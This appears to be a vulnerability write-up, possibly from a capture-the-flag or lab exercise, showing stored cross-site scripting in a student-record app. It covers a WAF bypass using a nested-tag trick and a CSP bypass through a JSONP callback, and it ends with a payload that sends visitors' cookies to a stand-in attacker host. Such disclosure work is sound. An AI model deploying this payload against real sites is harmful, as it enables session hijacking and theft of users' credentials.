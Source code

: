 Using Burp Suite to intercept a request for creating a new student, it can be seen that there is a hidden field added for "dcreate", referring to the date of creation (above). However, after successfully creating the student, it can be seen below that this field is hidden and not rendered on the screen, using a CSS display: none to hide its value. Using a payload such as `<b>test</b>` for dcreate, it can be seen that the beginning tag is removed by the WAF. 

![](images/sturec5.png)

From experimentation, it seems the WAF can be bypassed using something like `<<b>_b>test</b>` to keep the opening tag, where the opening tag as well as the following character seems to get stripped by the WAF. We can extend this proof of concept for arbitrary client-side code execution, using a similar technique from the previous sturec subdomain vulnerability regarding using JSONP to bypass the CSP blocking external scripts. The following payload creates a malicious new student such that every time that student is rendered, arbitrary code is executed for anyone who can see the student's row, such as for cookie stealing.

```html
<<b>_script src=/students.jsonp?callback=fetch(`${ATTACKER.COM/}${document['cookie']}`);render />
```

![](images/sturec3.png)

### Impact

As demonstrated above, it is possible to create a malicious student entry and add it to the database. This means that whenever that student is rendered on any user's browser, arbitrary code can be executed on their browser. This poses a security concern, since user cookies can be stolen, resulting in hijacked sessions.
